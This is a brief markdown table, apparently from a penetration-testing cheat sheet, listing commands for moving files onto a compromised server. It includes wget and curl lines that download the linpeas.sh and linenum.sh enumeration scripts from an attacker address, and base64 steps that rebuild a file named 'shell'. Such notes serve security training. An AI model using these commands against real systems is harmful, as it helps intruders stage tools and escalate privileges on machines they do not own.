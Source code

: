 |**Command**|**Description**|
|---|---|
|`python3 -m http.server 8000`|Start a local webserver|
|`wget http://10.10.14.1:8000/linpeas.sh`|Download a file on the remote server from our local machine|
|`curl http://10.10.14.1:8000/linenum.sh -o linenum.sh`|Download a file on the remote server from our local machine|
|`scp linenum.sh user@remotehost:/tmp/linenum.sh`|Transfer a file to the remote server with `scp` (requires SSH access)|
|`base64 shell -w 0`|Convert a file to `base64`|
|`echo f0VMR...SNIO...InmDwU \\| base64 -d > shell`|Convert a file from `base64` back to its orig|
|`md5sum shell`|Check the file's `md5sum` to ensure it converted correctly|